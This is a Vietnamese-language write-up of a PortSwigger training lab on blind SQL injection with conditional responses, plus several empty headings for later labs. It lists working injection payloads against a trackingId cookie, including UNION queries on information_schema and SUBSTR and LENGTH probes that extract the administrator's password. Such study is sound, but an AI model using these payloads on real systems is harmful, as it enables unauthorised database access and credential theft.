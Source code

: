 # [Lab 11: Blind SQLi with conditional responses]()
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/37ad9743-6580-48f3-ba12-fea8f2e1e44d)

trang web chính
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/987b0575-42d5-492b-9bec-0254487eb039)

message `Welcome back!`
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/7e2fd235-25a3-43b0-998e-69a773e82377)

thêm `'`
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/2e7dddc5-0bbb-4a19-8977-c229b04a383c)

message `Welcome back!` biến mất
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/6778550f-7e9e-48e3-b7fd-c57c80804c66)

thêm `--`
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/4b71cdc2-415e-431a-a748-130d904f7dd8)

message đã trở lại --> SQLi ở trackingId
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/7b78da5b-74c8-456d-a6e8-1b24833f1398)

`ORDER BY 1`
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/b460477b-719b-4ee0-9a11-f99a2ab72931)

`' UNION SELECT table_name FROM information_schema.tables WHERE table_schema='public'--`
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/4c560ca7-32ba-4f6d-aa36-14f8406c46d6)
chỉ hiện message Welcome back! câu truy vấn chính xác nhưng không có kết quả trả về mà chỉ có hiện message hay không --> True: hiện message, False: không hiện message

`AND 1=0` --> không hiện message
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/60af5c3f-d3f5-4217-93df-5528bde1aa04)

`AND 1=1` --> hiện message
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/4cc60215-e352-442c-9818-c7b333999958)

--> ta sẽ đưa các điều kiện để khai thác dữ liệu

message xuất hiện --> có username là administrator từ bảng users
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/521b7439-d994-4bbd-8d46-d4ea1816e81c)

`' AND (SELECT LENGTH(password)=§1§ FROM users WHERE username='administrator')--`
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/faeb5c5e-80dd-4563-a5a6-c788035cf6c7)

password có 20 ký tự
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/e0ffd916-4cbe-4da9-9547-61f6984b0a60)

tìm từng ký tự thôi

`' AND (SELECT SUBSTR(password,§1§,1)='§a§' FROM users WHERE username='administrator')--`

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/b11970b0-5185-4ae9-8942-be9c87d391a8)

![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/ca1a5338-7740-4259-a7f1-80c0f13c77e9)

login and solve the lab
![image](https://github.com/imHy0/Port_Swigger_Learning/assets/88024759/a3a65d89-e1aa-4416-8a6b-105aa9245a56)

# [Lab 12: Blind SQLi with conditional errors]()


# [Lab 13: Visible error-based SQLi]()


# [Lab 14: Blind SQLi with time delays]()


# [Lab 15: Blind SQLi with time delays and information retrieval]()


# [Lab 18: SQLi with filter bypass via XML encoding]()

